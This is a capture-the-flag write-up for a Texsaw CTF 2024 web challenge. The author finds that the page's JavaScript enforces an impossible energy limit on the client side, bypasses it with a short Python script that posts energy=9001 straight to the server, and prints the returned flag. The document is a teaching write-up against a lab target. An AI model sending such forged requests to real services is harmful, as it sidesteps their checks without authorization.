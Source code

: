 ```yaml
---
layout: writeup
category: Texsaw-CTF-2024
chall_description:
points: 50
solves: -1
tags: web web/post
date: 2024-3-25
comments: false
---
```


Help Goku get over 9000 energy to defeat his enemy Vegeta and save the world.  

3.23.56.243:9005  

---

Visit the site. Head to Chrome Dev Tools --> Sources. Here's the .js file controlling it all:  

```js

let currentEnergy = 0;

function gatheringEnergy(){
    currentEnergy++;
    $("#energycount").html(`${currentEnergy}`);
    if(currentEnergy == 10)
    {
        alert("out of energy try again :(")
        currentEnergy = 0;
        $("#energycount").html(0);
        
    }
    else if (currentEnergy > 9000)
    {
        
        $.ajax({
            type:"POST",
            url:"kamehameha.php",
            data:{energy: currentEnergy},
            success: function(flag){
                alert(`${flag}`);
            },
            error: function(responseText,status, error){
                console.log(`Tell the infrastructure team to fix this: Status = ${status} ; Error = ${error}`);
            }


        })
        
    }
}

```

So it's impossible to actually get to over 9000. However, we can just send a POST request ourselves to kamehameha.php! Here's a script that does just that:  

```py
from requests import post

d = dict()
d["energy"] = 9001
res = post("http://3.23.56.243:9005/kamehameha.php", d).text
print(res)
```

And we get the flag!  

    texsaw{y0u_th0ught_th1s_w4s_4_fl4g_but_1t_w4s_m3_d10}